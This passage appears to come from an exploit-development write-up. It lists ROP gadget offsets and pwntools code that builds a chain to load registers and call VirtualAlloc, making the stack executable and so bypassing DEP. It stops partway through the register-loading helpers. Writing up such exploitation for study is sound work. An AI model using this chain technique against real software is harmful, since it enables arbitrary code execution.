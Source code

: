 ```python
# Some gadgets
pop_rcx = 0x00000000000031dc            # pop rcx; clc; ret; 
pop_rax = 0x000000000000150a            # pop rax; ret; 
pop_r13 =  0x00000000000047b3           # pop r13; ret; 
mov_rdx_r13 = 0x000000000000368f        # mov rdx, r13; call rax; 
pop_rbx = 0x00000000000020d9            # pop rbx; ret; 
mov_r9_rbx = 0x0000000000001f90         # mov r9, rbx; mov r8, 0; add rsp, 8; ret; 
cmove_r9_rdx = 0x000000000001f37d       # cmove r9, rdx; mov rax, r9; ret; 
mov_r8_0 = 0x0000000000001f93           # mov r8, 0; add rsp, 8; ret; 
add_r8_r9 = 0x0000000000003918          # add r8, r9; add rax, r8; ret; 
pop_rsi = 0x0000000000004116            # pop rsi; ret; 
cmp_esi_0x6348ffff = 0x0000000000012ddb # cmp esi, 0x6348ffff; ret;
ret = 0x000000000001088a                # ret; 
mov_r15_rax = 0x0000000000014b02        # push rax; pop r15; ret; 
mov_qw_rcx_rax = 0x000000000000e1a0     # mov qword ptr [rcx + 8], rax; ret; 
jmp_qw_rcx = 0x000000000001e8a3         # jmp qword ptr [rcx];
jmp_qw_rbx = 0x000000000001ec79         # jmp qword ptr [rbx]; 
```

finding load rcx gadget in ropper:

![ropper](/images/user_ropper.png)

After many hours I came up with the following pwntools code to load rcx, rdx, r8 & r9 registers with the needed values and then call ``VirtualAlloc()`` on the stack memory address to make the stack RWX

```python
# IAT
VirtualAlloc = pbase + 0x20000

# register load rop chains

# destroys r9, rbx, rax
def load_r8(value):
 r = b""
 r += p64(pbase + mov_r8_0)
 r += p64(0xdeadbeefdeadbeef)
 r += p64(pbase + pop_rbx)
 r += p64(value)
 r += p64(pbase + mov_r9_rbx)
 r += p64(0xdeadbeefdeadbeef)
 r += p64(pbase + add_r8_r9)
 return r
```